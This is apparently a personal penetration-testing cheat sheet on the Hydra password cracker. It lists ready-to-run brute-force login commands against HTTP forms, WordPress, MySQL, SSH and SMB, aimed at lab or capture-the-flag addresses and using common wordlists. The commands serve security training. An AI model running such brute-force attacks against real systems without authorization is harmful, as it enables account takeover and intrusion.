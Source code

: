 ```yaml
---
tags:
  - Post-Exploitation
  - Cryptography
  - PasswordsAndWordlists
  - Tooling
  - BruteForcing
---
```

Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

# Commands

* `hydra -l admin -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt 10.10.10.73 http-post-form "/login.php:username=admin&password=^PASS^:Wrong identification"`

## WordPress

* `hydra -L users -P /usr/share/wordlists/rockyou.txt five86-2 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ffive86-2%2Fwp-admin%2F&testcookie=1:ERROR:H=Cookie: wordpress_test_cookie=WP+Cookie+check" -t 30 -I`

## [[2. Enumeration/TCP/3306. MySQL (SQL)/1. Guide|SQL]]

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 
```

## SSH

* `hydra -l samantha -P /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt 192.168.183.116 ssh`
* `hydra -t 4 -l hadi -P passwords-mutated.txt 192.168.120.52 ssh`

# SMB

```
hydra -L users -P wordlist 10.10.10.193 smb
```